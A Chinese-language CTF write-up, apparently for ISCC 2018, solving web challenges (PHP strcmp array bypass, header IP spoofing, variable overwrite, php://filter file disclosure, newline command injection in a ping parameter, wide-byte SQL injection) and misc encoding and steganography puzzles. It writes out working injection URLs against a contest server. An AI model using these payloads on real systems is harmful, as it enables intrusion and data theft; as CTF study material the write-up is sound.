




iscc个人赛，记录一些有意义的题目。
#web
##0x01WEB2
### qs

```php
<?php 
highlight_file('2.php'); 
$flag='{***************}'; 
if (isset($_GET['password'])) {   
    if (strcmp($_GET['password'], $flag) == 0)   
        die('Flag: '.$flag);   
    else   
        print 'Invalid password';   
}   
?>
```
**本题为strcmp的绕过**：https://blog.csdn.net/cherrie007/article/details/77473817
**适用范围**：php5.3及前
**漏洞原理**：传入非字符串类型时，报错但返回0。如：`$_GET['password']`、`$_POST['password']`传入数组`password[]=xxx`.

### solve


## 0x02WEB3
**题目**：
小明扫描了他心爱的小红的电脑，发现开放了一个8013端口，但是当小明去访问的时候却发现只允许从本地访问，可他心爱的小红不敢让这个诡异的小明触碰她的电脑，可小明真的想知道小红电脑的8013端口到底隐藏着什么秘密(key)？
****
**解题**：
HTTP的IP伪造有2个方法：

```
X-Forwarded-For: 127.0.0.1
Client-Ip: 127.0.0.1
```
<br>


## 0x03WEB4
**题目**：
Key Words:XSS

如果你对xss了解的话,那你一定知道key是什么了，加油！

`http://www.test.com/NodeMore.jsp?id=672613&page=2&pageCounter=32&undefined&callback=%2b/v%2b%20%2bADwAcwBjAHIAaQBwAHQAPgBhAGwAZQByAHQAKAAiAGsAZQB5ADoALwAlAG4AcwBmAG8AYwB1AHMAWABTAFMAdABlAHMAdAAlAC8AIgApADwALwBzAGMAcgBpAHAAdAA%2bAC0-&_=1302746925413`
<input type="text" name="key">
<input type="submit" name="submit" value="提交">
****
**解题过程**：观察callback存在*URL*编码，解出来后看到前缀是`+/v+`，可见是*UTF-7*编码，解码即可。即：qs->unscape->de-UTF-7
解出：`+/v+ <script>alert("key:/%nsfocusXSStest%/")</script>-`，放到submit框，服务器弹框flag.
这和xss有半毛钱关系，你懂xss吗。
<br>

## 0x04WEB5 好像有个文件忘记删了
### 测试
题目提示文件忘删，故通过dirbuster爆破加手工试，发现/index.php.txt，文件如下

```php
<?php

include "flag.php";

if ($_SERVER["REQUEST_METHOD"] != "POST")
	die("flag is here");

if (!isset($_POST["flag"]) )
	die($_403);

foreach ($_GET as $k => $v){
	$$k = $$v;
}

foreach ($_POST as $k => $v){
	$$k = $v;
}

if ( $_POST["flag"] !== $flag )
	die($_403);

echo "flag: ". $flag . "\n";
die($_200);

?>
```

可见是代码覆盖漏洞。`$flag`变量被post中的flag变量值覆盖，可以提前放入`$_200`变量中，并且在返回后显示在用户界面。

### 原理

```
foreach ($_GET as $k => $v){
	$$k = $$v; //将$_200注册为变量并且赋值为$flag的值
}
由于if (!isset($_POST["flag"]) )的限制post变量中必须要包含flag,但是由于下面代码又把flag覆盖掉了
foreach ($_POST as $k => $v){
	$$k = $v; ////将flag注册为变量赋值为xxx（任意都可）
}
所以无法直接看到flag,所以需要将$_200的值覆盖为$flag
```
### 解题
**故可构造攻击得到flag**


    reference：
    1. https://blog.csdn.net/jiangliuzheng/article/details/52399199
    2. http://www.freebuf.com/column/150731.html
: )
<br>

## 0x05WEB6 你能绕过吗?

网页通过`http://118.190.152.202:8008/index.php?f=articles&id=1`选中文章
### solve
包含过waf操作：
`http://118.190.152.202:8008/index.php?f=pHP://filter/read=convert.base64-encode/resource=index&id=123`

？？
: )
<br>

## 0x06WEB8 请ping我的IP 看你会ping通吗

* terminal里ping不通，服务器对外根本没开ICMP.
* 那么它说的ping它什么意思？尝试在url里添加字段`http://118.190.152.202:8018/?ip=118.190.152.202`或者`?ip=127.0.0.1`，发现网页显示了终端内容，猜测是一个命令执行漏洞。

```
请ping我的IP 看你会ping通吗
PING 118.190.152.202 (118.190.152.202) 56(84) bytes of data.
64 bytes from 118.190.152.202: icmp_seq=1 ttl=63 time=0.885 ms

--- 118.190.152.202 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.885/0.885/0.885/0.000 ms
```

* **URL内添加命令分隔符的小知识：**`%0a`符号->换行符  `%0d`->回车符 `;`->在 shell 中，担任”连续指令”功能的符号就是”分号”.
* 那么先cat出index.php的内容，看它如何处理终端的输入:`http://118.190.152.202:8018/?ip=127.0.0.1%0Acat%20index.php`

```php
请ping我的IP 看你会ping通吗
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.032/0.032/0.032/0.000 ms
 '',
		';' => '',
		'|' => '',
		'-'  => '',
		'$'  => '',
		'('  => '',
		')'  => '',
		'`'  => '',
		'||' => '',
	);

	$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 1 ' . $target );
	}

	echo  "
{$cmd}
";

?>
```

php内去除符号**; | - $ ) ( \` ||** , 执行不了多条指令， 先查看当前文件夹下文件`http://118.190.152.202:8018/?ip=127.0.0.1%0Als`.仅有**index.php**.啊哈fine.
`http://118.190.152.202:8018/?ip=127.0.0.1%0Apwd`->**/var/www/html**
`http://118.190.152.202:8018/?ip=127.0.0.1%0Als%20/home/`->**flag**
`http://118.190.152.202:8018/?ip=127.0.0.1%0Acat%20/home/flag`-> ISCC{8a8646c7a2fce16b166fbc68ca65f9e4}
: )
<br>


## 0x07WEB9 Please give me username and password!
明显，get请求传入相应字段。先试空值.页面未作任何处理，观察返回，`password`需要数字`username`需要right.

```
http://118.190.152.202:8017/?username=&password=
Username is not right
Password is not numeric
```

查干源代码是否提供了服务端php信息，发现如下:

```
Username is not right<!--index.php.txt--><p>Password is not numeric<!--index.php.txt--></p>
```
input `http://118.190.152.202:8017/index.php.txt`

```php
<?php
error_reporting(0);
$flag = "***********";	
if(isset($_GET['username'])){
	if (0 == strcasecmp($flag,$_GET['username'])){
	$a = fla;
	echo "very good!Username is right";
	}
	else{
	print 'Username is not right<!--index.php.txt-->';}
}else
print 'Please give me username or password!';
if (isset($_GET['password'])){
	if (is_numeric($_GET['password'])){
		if (strlen($_GET['password']) < 4){
			if ($_GET['password'] > 999){
			$b = g;
			print '<p>very good!Password is right</p>';
		}else 
			print '<p>Password too little</p>';
		}else
		print '<p>Password too long</p>';
	}else
	print '<p>Password is not numeric</p>';
}
if ($a.$b == "flag")
	print $flag;
?>
```
啊哈两个点：
1. 绕过`strcasecmp()`
2. `strlen(password) < 4` and `password > 999`

解决方案：
1. 同理WEB2，传入usernmae数组。
2. 通过科学记数法表示数字绕过过滤：`1e9`。
即`http://118.190.152.202:8017/?username[]=xx&password=1e6`

```
very good!Username is right
very good!Password is right

flag{ISCC2018_Very_GOOD!}
```
: )
<br>


## 0x08WEB10 SQL注入的艺术
宽字节注入,个人博客会之后更新sql注入教学，后续会讲解宽字节注入。

* 测试发现总共8个字段，order by 9报错。`http://118.190.152.202:8015/index.php?id=1%df%27 order by 8%23`
* `http://118.190.152.202:8015/index.php?id=%DF%27union%20select%201,2,3,4,5,6,7,8%20from%20admins%23`结果如下


easy 2、4、7一处输入为flag即可。`http://118.190.152.202:8015/index.php?id=%DF%27union%20select%201,flag,3,4,5,6,7,8%20from%20admins%23`

: )
<br>

## 0x09WEB11 随意开火

题目index.php仅一行代码，逻辑藏在show.php中。

```html

```
`http://118.190.152.202:8006/show.php` ->同/index.php
`http://118.190.152.202:8006/show.php?s=1`->同/index.php
故，show 1.jpg为未输入img值的默认输出。

`http://118.190.152.202:8006/show.php?img=1`->"File not found."
`http://118.190.152.202:8006/show.php?img=1.png`->"File not found."
`http://118.190.152.202:8006/show.php?img=2.jpg`->显示空图
对jpg和png的不同处理，可见img中.jpg是必选项，没有.jpg就报"File not found."，且目录下没有别的图片。

对比`http://118.190.152.202:8006/show.php`和`http://118.190.152.202:8006/show.php?img=1.jpg`的不同输出：


可见，服务器对img是否有值作不同的处理。前者置img标签，后者直接echo，明显提示我们对img取值下文章，很可能可以echo出flag

猜想xxe，引用web6骚操作使用**php://filter**如下：
1. `http://118.190.152.202:8006/show.php?img=php://filter/resource=1.jpg/`->同/show.php?img=1.jpg
2. `http://118.190.152.202:8006/show.php?img=php://filter/resource=show.php`->同show.php?img=1，file not found.
3. `http://118.190.152.202:8006/show.php?img=php://filter/resource=1.jpg/resource=show.php/resource=index.php`->同/show.php？？？？？？？？？可见第一个resource=1.jpg用于绕过，后加一个resource可以输出。

通过`118.190.152.202:8006/show.php?img=php://filter/read=convert.base64-encode/resource=1.jpg/resource=show.php`来输出show.php源码试试，成功. 源码如下：
**show.php**

```
<?php
error_reporting(0);
ini_set('display_errors','Off');

include('config.php');

$img = $_GET['img'];
if(isset($img) && !empty($img))
{
    if(strpos($img,'jpg') !== false)
    {
        if(strpos($img,'resource=') !== false && preg_match('/resource=.*jpg/i',$img) === 0)
        {
            die('File not found.');
        }

        preg_match('/^php:\/\/filter.*resource=([^|]*)/i',trim($img),$matches);
        if(isset($matches[1]))
        {
            $img = $matches[1];
        }

        header('Content-Type: image/jpeg');
        $data = get_contents($img);
        echo $data;
    }
    else
    {
        die('File not found.');
    }

}
else
{
    ?>
    
    
    
    <?php
}
?>    
```
**config.php**

```

<?php
error_reporting(0);
ini_set('display_errors','Off');

include('config.php');

$img = $_GET['img'];
if(isset($img) && !empty($img))
{
    if(strpos($img,'jpg') !== false)
    {
        if(strpos($img,'resource=') !== false && preg_match('/resource=.*jpg/i',$img) === 0)
        {
            die('File not found.');
        }

        preg_match('/^php:\/\/filter.*resource=([^|]*)/i',trim($img),$matches);
        if(isset($matches[1]))
        {
            $img = $matches[1];
        }

        header('Content-Type: image/jpeg');
        $data = get_contents($img);
        echo $data;
    }
    else
    {
        die('File not found.');
    }

}
else
{
    ?>
    
    <?php
}
?>    
```

啊哈，找flag文件即可，最后: `view-source:http://118.190.152.202:8006/show.php?img=php://filter/read=convert.base64-encode/resource=1.jpg/resource=../flag.php`

```html
<!-- flag{1ntere5ting_PHP_Regu1ar_express1onssssss} -->
```
<br>
**本题最后**回头思考，构造`http://118.190.152.202:8006/show.php?img=php://filter/read=convert.base64-encode/resource=show.php||1.jpg`亦可以绕过获得源码.

: )
<br>

#MISC
## 0x01MISC1 What is that？

从手势中可以猜测出Flag可能隐藏在下方,tweakpng看到IHDR的crc验证错误, 图片确实修改过宽高，我们可以调节高度来获得flag。
    

`272`字段是图片宽度，`1F4`字段是图片高度，比如把高度调成280，保存新图，获得flag如下：

: )
<br>

## 0x02MISC2 秘密电报
**题目：**

```
秘密电报：
知识就是力量 ABAAAABABBABAAAABABAAABAAABAAABAABAAAABAAAABA
```
**解题：**
知识就是力量->培根->培根加密解密（本质就是二进制）

: )
<br>

## 0x03MISC3 重重谍影
### qs
这是一道脑洞题，简单的要命。层层迷雾之后就是答案，刹那便是永恒。南无阿弥陀佛。

```
Vm0wd2QyVkZOVWRXV0doVlYwZG9WVll3WkRSV2JGbDNXa1JTVjAxWGVGWlZNakExVjBaS2RHVkljRnBXVm5CUVZqQmtTMUl4VG5OaFJtUlhaV3RHTkZkWGRHdFRNVXB6V2toV2FsSnNjRmhhVjNoaFYxWmFjMWt6YUZSTlZtdzBWVEo0YzJGR1NuTlhiR2hYWVd0d2RsUnRlR3RqYkdSMFVteFdUbFp0ZHpCV2EyTXhVekZSZUZkc1ZsZGhlbXhoVm01d1IyTldjRVZTYlVacVZtdHdlbGRyVlRWVk1ERldZMFZ3VjJKR2NIWlpWRXBIVWpGT1dXSkhhRlJTVlhCWFZtMDFkMUl3TlhOVmJGcFlZbGhTV1ZWcVFURlRWbEY0VjIxR2FGWnNjSGxaYWs1clZqSkdjbUo2UWxwV1JWcDZWbXBHVDJNeGNFaGpSazVZVWxWd1dWWnRNVEJXTVUxNFdrVmtWbUpHV2xSWlZFNVRWVVpzYzFadVpGUmlSbHBaVkZaU1ExWlhSalpTYTJSWFlsaENVRll3V21Gak1XUnpZVWRHVTFKV2NGRldha0poV1ZkU1YxWnVTbEJXYldoVVZGUktiMDB4V25OYVJFSm9UVlpXTlZaSE5VOVdiVXB5WTBaYVdtRXhjRE5aTW5oVFZqRmFkRkpzWkU1V2JGa3dWbXhrTUdFeVJraFRiRnBYWVd4d1dGWnFUbE5YUmxsNVRWVmFiRkp0VW5wWlZWcFhZVlpLZFZGdWJGZGlXRUpJV1ZSS1QxWXhTblZWYlhoVFlYcFdWVmRYZUZOamF6RkhWMjVTYWxKWVVrOVZiVEUwVjBaYVNFNVZPVmRXYlZKS1ZWZDRhMWRzV2taWGEzaFhUVlp3V0ZwR1pFOVRSVFZZWlVkc1UyRXpRbHBXYWtvd1lURkplRmR1U2s1V1ZscHdWVzB4VTFac1duUk5WazVPVFZkU1dGZHJWbXRoYXpGeVRsVndWbFl6YUZoV2FrWmhZekpPUjJKR1pGTmxhMVYzVjJ0U1IyRXhUa2RWYmtwb1VtdEtXRmxzWkc5a2JHUllaRVprYTJKV1ducFhhMXB2Vkd4T1NHRklRbFZXTTJoTVZqQmFZVk5GTlZaa1JscFRZbFpLU0ZaSGVGWmxSbHBYVjJ0YVQxWldTbFpaYTFwM1dWWndWMXBHWkZSU2EzQXdXVEJWTVZZeVNuSlRWRUpYWWtad2NsUnJXbHBsUmxweVdrWm9hVkpzY0ZsWFYzUnJWVEZaZUZkdVVtcGxhMHB5VkZaYVMxZEdXbk5oUnpsWVVteHNNMWxyVWxkWlZscFhWbGhvVjFaRldtaFdha3BQVWxaU2MxcEhhRTVpUlc4eVZtdGFWMkV4VVhoYVJXUlVZa2Q0Y1ZWdGRIZGpSbHB4VkcwNVZsWnRVbGhXVjNSclYyeGFjMk5GYUZkaVIyaHlWbTB4UzFaV1duSlBWbkJwVW14d2IxZHNWbUZoTWs1elZtNUtWV0pHV2s5V2JHaERVMVphY1ZKdE9XcE5WbkJaVld4b2IxWXlSbk5UYldoV1lURmFhRlJVUm1GamJIQkhWR3hTVjJFelFqVldSM2hoWVRGU2RGTnJXbXBTVjFKWVZGWmFTMUpHYkhGU2JrNVlVbXR3ZVZkcldtdGhWa2w1WVVjNVYxWkZTbWhhUkVaaFZqRldjMWRzWkZoU01taFFWa1phWVdReFNuTldXR3hyVWpOU2IxVnRkSGRXYkZwMFpVaE9XbFpyY0ZsV1YzQlBWbTFXY2xkdGFGWmlXRTE0Vm0xNGExWkdXbGxqUms1U1ZURldObFZyVGxabGJFcENTbFJPUlVwVVRrVSUzRA==
```

### solve
base64多次解密到底：

```
U2FsdGVkX183BPnBd50ynIRM3o8YLmwHaoi8b8QvfVdFHCEwG9iwp4hJHznrl7d4%0AB5rKClEyYVtx6uZFIKtCXo71fR9Mcf6b0EzejhZ4pnhnJOl+zrZVlV0T9NUA+u1z%0AiN+jkpb6ERH86j7t45v4Mpe+j1gCpvaQgoKC0Oaa5kc%3D
```
deurl:

```
U2FsdGVkX183BPnBd50ynIRM3o8YLmwHaoi8b8QvfVdFHCEwG9iwp4hJHznrl7d4
B5rKClEyYVtx6uZFIKtCXo71fR9Mcf6b0EzejhZ4pnhnJOl+zrZVlV0T9NUA+u1z
iN+jkpb6ERH86j7t45v4Mpe+j1gCpvaQgoKC0Oaa5kc=
```
AES空密钥解密：

```
答案就是后面这句但已加密
缽娑遠呐者若奢顛悉呐集梵提梵蒙夢怯倒耶哆般究有栗
```
网页搜索发现和与佛论禅有关     fuck iscc

解密后flag: 
把我复制走
    
    reference:
    与佛论禅http://www.keyfc.net/bbs/tools/tudoucode.aspx

: )
<br>

## 0x04MISC5 Where is the FLAG？
将文件放到tweakpng,发现有Adobe Fireworks CS5编辑痕迹,使用fireworks移动图片，背后藏了二维码碎片，最后拼接成flag的二维码。
 
<br>


: )
<br>

## 0x05MISC6 凯撒十三世

```
凯撒十三世在学会使用键盘后，向你扔了一串字符：“ebdgc697g95w3”，猜猜它吧。
```
从题目猜测出"ebdgc697g95w3"是由凯撒密码加密,位移13次,解密:`roqtp697t95j3`.
并使用键盘对应字符的下面一个解密即可。

## 0x06MISC7 一只猫的心思
文件中部存在一个doc文档头，将其分离：

1. formost xxx.jpg -T
2. winhex等寻找doc文档头和png图片尾交界处，分离两个文件如下。（png: FFD8->FFD9 ms: D0CF11E0）


分离出的doc文字如下：

```
名西三陵帝焰数诵诸山众參哈瑟倒陰捨劫奉惜逝定雙月奉倒放足即闍重号貧老诵夷經友利普过孕北至花令藐灯害蒙能羅福羅夢开雙禮琉德护慈積寫阿璃度戏便通故西故敬于瑟行雙知宇信在礙哈数及息闍殺陵游盧槃药諦慈灯究幽灯豆急彌貧豆親诵梭量树琉敬精者楞来西陰根五消夢众羅持造彌六师彌怖精僧璃夫薩竟祖方夢訶橋經文路困如牟憐急尼念忧戏輸教乾楞能敬告树来楞殊倒哈在紛除亿茶涅根輸持麼阿空瑟稳住濟号他方牟月息盡即来通貧竟怖如槃精老盡恤及游薩戏师毒兄宝下行普鄉释下告劫惜进施盡豆告心蒙紛信胜东蒙求帝金量礙故弟帝普劫夜利除積众老陀告沙師尊尼捨惜三依老蒙守精于排族祖在师利寫首念凉梭妙經栗穆愛憐孝粟尊醯造解住時刚槃宗解牟息在量下恐教众智焰便醯除寂想虚中顛老弥诸持山諦月真羅陵普槃下遠涅能开息灯和楞族根羅宝戒药印困求及想月涅能进至贤金難殊毘瑟六毘捨薩槃族施帝遠念众胜夜夢各万息尊薩山哈多皂诵盡药北及雙栗师幽持牟尼隸姪遠住孕寂以舍精花羅界去住勒排困多閦呼皂難于焰以栗婦愛闍多安逝告槃藐矜竟孕彌弟多者精师寡寫故璃舍各亦方特路茶豆積梭求号栗怖夷凉在顛豆胜住虚解鄉姪利琉三槃以舍劫鄉陀室普焰于鄉依朋故能劫通
```
与佛论禅，加“如是我闻：”得到如下：

```
523156615245644E536C564856544E565130354B553064524D6C524E546B4A56535655795645644F5530524857544A4553553943566B644A4D6C524E546C7052523155795645744F536C5248515670555330354452456456576B524854554A585231457956554E4F51305A4855544E4553303153566B64424D6C524A546B7058527A525A5245744F576C5A4854544A5554553554513063304E46524C54564A5652316B795255744F51305A4856544E5554564661566B6C464D6B5252546B70595231557A5245394E516C5A4856544A555355354B566B644E5756524E5455705752316B7A5255564F55305248566B465553564A4356306C4E4D6C524E546B4A565231557952453152556C564A56544A455555354B5530644E5756525054554A56523030795645314F516C5A4857544A4553303143566B64464D305648546B744352314A425645744F576C5A4855544A4651303543566B64564D6B524854554A555230557A52454E4F536C644855544A5554553543566B645A4D6B564A546C4E445231566152456C52576C5A4855544A5553303544516B64564D6C524C54564A55523045795245314F556C4A4856544E455355354B56556C564D6B564E546B70535230315A52457452536C564951544A555455354B565564535156524A54564A575230457956456C4E576C46485454525553303143566B6446576C564A54544A46
```
16转字符->base64解码->base32解码->16进制转字符->16转字符->base64解码->base32解码->16进制转字符.
`F1a9_is_I5cc_ZOl8_G3TP01NT`

    reference:
    http://www.5ixuexiwang.com/str/from-hex.php
    http://www.qqxiuzi.cn/bianma/base.php
: )
<br>

## 0x07MISC8 
如下两种方法：
1. ZipCenOp.jar
2. 修改文件头加密标识位：

`0504B0102`后为压缩文件目录区：`07`处改成`00`即可
flag从解压文件凯撒解密得到

: )
<br>


    other references:
        https://blog.zilch40.wang/2018/05/25/iscc-2018-writeup/


